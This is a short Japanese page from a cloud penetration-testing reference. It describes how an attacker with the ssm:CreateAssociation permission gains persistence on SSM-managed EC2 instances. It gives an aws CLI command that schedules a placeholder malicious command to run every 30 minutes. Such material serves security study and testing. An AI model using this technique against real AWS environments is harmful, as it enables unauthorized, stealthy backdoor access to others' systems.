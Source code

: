 # AWS - SSM パーシステンス

{{#include ../../../banners/hacktricks-training.md}}

## SSM

詳細については、次を確認してください:

{{#ref}}
../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/README.md
{{#endref}}

### ssm:CreateAssociationを使用したパーシステンス

**`ssm:CreateAssociation`** の権限を持つ攻撃者は、SSMによって管理されるEC2インスタンスでコマンドを自動的に実行するためのステートマネージャーアソシエーションを作成できます。これらのアソシエーションは、固定の間隔で実行されるように構成でき、インタラクティブなセッションなしでバックドアのようなパーシステンスに適しています。
```bash
aws ssm create-association \
--name SSM-Document-Name \
--targets Key=InstanceIds,Values=target-instance-id \
--parameters commands=["malicious-command"] \
--schedule-expression "rate(30 minutes)" \
--association-name association-name
```
> [!NOTE]
> この永続化方法は、EC2インスタンスがSystems Managerによって管理されており、SSMエージェントが実行中で、攻撃者が関連付けを作成する権限を持っている限り機能します。インタラクティブセッションや明示的なssm:SendCommand権限は必要ありません。**重要:** `--schedule-expression`パラメータ（例: `rate(30 minutes)`）は、AWSの最小間隔である30分を尊重する必要があります。即時または一度きりの実行の場合は、`--schedule-expression`を完全に省略してください — 関連付けは作成後に一度実行されます。

{{#include ../../../banners/hacktricks-training.md}}
